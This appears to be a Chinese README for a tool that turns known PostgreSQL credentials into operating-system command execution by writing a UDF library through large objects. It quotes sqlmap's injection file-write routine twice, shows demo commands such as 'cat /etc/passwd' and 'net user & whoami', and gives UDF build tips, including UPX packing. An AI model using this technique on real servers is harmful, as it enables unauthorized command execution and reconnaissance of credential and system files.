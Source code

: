 # fuck_postgres

### 前言

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。
sqlmap该模块的写文件语句详见filesystem.py:
```
def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
	wFileSize = os.path.getsize(wFile)
	content = open(wFile, "rb").read()

	self.oid = randomInt()
	self.page = 0

	self.createSupportTbl(self.fileTblName, self.tblField, "text")

	debugMsg = "create a new OID for a large object, it implicitly "
	debugMsg += "adds an entry in the large objects system table"
	logger.debug(debugMsg)

	# References:
	# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
	# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
	inject.goStacked("SELECT lo_create(%d)" % self.oid)
	inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

	for offset in xrange(0, wFileSize, LOBLKSIZE):
		fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
		sqlQueries = self.fileToSqlQueries(fcEncodedList)

		for sqlQuery in sqlQueries:
			inject.goStacked(sqlQuery)

		inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
		inject.goStacked("DELETE FROM %s" % self.fileTblName)

		self.page += 1

	debugMsg = "exporting the OID %s file content to " % fileType
	debugMsg += "file '%s'" % dFile
	logger.debug(debugMsg)

	inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

	written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

	return written
```

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell基本就是个摆设，语句略坑，所以我抽时间写一个，方便各位“管理员”。
sqlmap该模块语句详见filesystem.py:

def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
    wFileSize = os.path.getsize(wFile)
    content = open(wFile, "rb").read()

    self.oid = randomInt()
    self.page = 0

    self.createSupportTbl(self.fileTblName, self.tblField, "text")

    debugMsg = "create a new OID for a large object, it implicitly "
    debugMsg += "adds an entry in the large objects system table"
    logger.debug(debugMsg)

    # References:
    # http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
    # http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

    inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
    inject.goStacked("SELECT lo_create(%d)" % self.oid)
    inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

    for offset in xrange(0, wFileSize, LOBLKSIZE):
        fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
        sqlQueries = self.fileToSqlQueries(fcEncodedList)

        for sqlQuery in sqlQueries:
            inject.goStacked(sqlQuery)

        inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
        inject.goStacked("DELETE FROM %s" % self.fileTblName)

        self.page += 1

    debugMsg = "exporting the OID %s file content to " % fileType
    debugMsg += "file '%s'" % dFile
    logger.debug(debugMsg)

    inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

    written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

    inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

    return written

filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。 每page容量为4096字节，如果是hex，只能容纳2kb的数据。

##### 工具特点：

> 1. 不限平台，可用于管理windows和linux上的postgres
> 2. 不限版本，udf有效版本内可自行添加库文件到工具目录
> 3. hex+分段写入large obj，无page数据过大问题
> 4. 。。。


#### USAGE

```
usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD]
                     [-d DATABASE] [-e EXECUTE]

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  pgsql server ip
  -o PORT, --port PORT  pgsql Port
  -u USER, --user USER  pgsql UserName
  -p PASSWD, --passwd PASSWD
                        pgsql password
  -d DATABASE, --database DATABASE
                        pgsql database
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
```

##### 演示

管理PostgreSQL 9.2.24 running on linux 64：

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd"
```

![linux](./pic/linux.png)

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami"
```


![whoami](./pic/whoami.png)

管理PostgreSQL 8.2.21 running on windows 32：

```
fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami"
```

![win](./pic/win.png)

```
fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al"
```

![win2](./pic/win2.png)

##### 暂时收录了以下版本postgres的库文件：

![tree](./pic/tree.png)

各版本源码地址：`https://www.postgresql.org/ftp/source`

##### 以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）

我在拜读前辈文章时，叹服前辈对待技术研究的态度。

udf源文件在此(https://github.com/sqlmapproject/udfhack/)

在 linux 编译so文件简单许多，只需要一条命令： 
```
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so 
```
其中$PGSRC 为 postgres 源码的路径或安装路径。 

windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为： 

`%PGDIR%\include `
其中`%PGDIR%`为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的： 

```
%PGDIR%\include\server 
%PGDIR%\include\server\port\win32 
```
这三个路径都需要加到工程的头文件目录列表中。 
同时，需要将 `%PGDIR%\lib `
添加至 lib 文件目录列表中。  
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。 
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。 
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。 
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数： 
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否 
优化->引用，修改为是 
优化->启用 COMDAT 折叠，修改为是  
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为： 
http://upx.sourceforge.net/#downloadupx  



欢迎有vs环境的童鞋编译提交新的库文件。

##### 参考鸣谢：@zcgonvh @anlfi @bt2312 @Catchermana
